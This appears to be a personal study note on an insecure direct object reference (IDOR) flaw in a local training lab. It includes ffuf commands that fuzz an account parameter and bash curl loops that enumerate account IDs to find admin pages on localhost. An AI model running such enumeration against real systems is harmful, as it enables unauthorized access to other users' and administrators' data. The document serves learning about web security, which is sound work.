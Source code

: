 
Access control vulnerability
we can request a resource with an object id

eg:
userID
productID 

in lab

change acountID and we find we can also access admins page

![[Pasted image 20230712145157.png]]

since we have a query(?) parameter in URL, need to put the URL inside quotes

```sh
ffuf -w num.txt -u 'http://localhost/labs/e0x02.php?account=FUZZ' -fs 849
```

-fs:filtersize(remove specified size response)
remove incorrect parameter

![[Pasted image 20230712145635.png]]

```sh
ffuf -w num.txt -u 'http://localhost/labs/e0x02.php?account=FUZZ' -fs 849 | grep FUZZ
```

now try to identify all the accounts that are admin

1)Use burpsuite intruder and filter out the response

![[Pasted image 20230712150944.png]]

2)Writing a script that filters response using curl

```sh
#!/bin/bash

fuzz=(1002 1001 1012 1004 1008 1003 1013 1011 1015 1016 1005  1000  1010 1006 1017 1018 1019 1014 1007 1009)

#all the values that are user

for i in "${fuzz[@]}"
do

curl -s http://localhost/labs/e0x02.php?account=${i} |grep admin && echo $i

done
```


OR

```sh
#!/bin/bash


fuzz=()

readarray -t fuzz < num.txt

for i in "${fuzz[@]}"
do

curl -s http://localhost/labs/e0x02.php?account=${i} |grep admin && echo $i

done

```

`readarray` will create an array where each element of the array is a line in the input.


